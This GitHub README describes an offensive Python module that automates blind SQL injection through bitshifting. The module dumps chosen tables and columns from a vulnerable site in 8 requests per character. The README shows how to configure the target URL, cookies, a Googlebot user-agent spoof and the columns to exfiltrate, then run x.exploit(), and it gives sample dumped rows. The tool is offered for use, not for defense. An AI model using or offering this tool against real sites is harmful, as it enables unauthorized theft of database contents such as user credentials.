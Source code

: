 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character. Further efficency is possible in some cases with a few modifications.

Method by **Jelmer de Hen** (https://www.exploit-db.com/papers/17073/)

Implementation coded by **Eclipse** of **Team Salvation** (http://ljdbosgro7jj4z7r.onion)

## Usage
```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration: 

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1",

# Specify cookie (optional)
x.options["cookies"] = "",

# Specify a condition for a specific row, e.g. uid=1 for admin (1 = no condition)
x.options["row_condition"] = "1",

# Boolean option for following redirections
x.options["follow_redirections"] = 0,

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)",

# Specify table name to dump
x.options["table_name"] = "",

# Specify columns to dump
x.options["columns"] = "col1,col2",

# String to check for on page after successful statement
x.options["truth_string"] = ""
```

Then:

`x.exploit()`

This returns a 2-dimentional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`

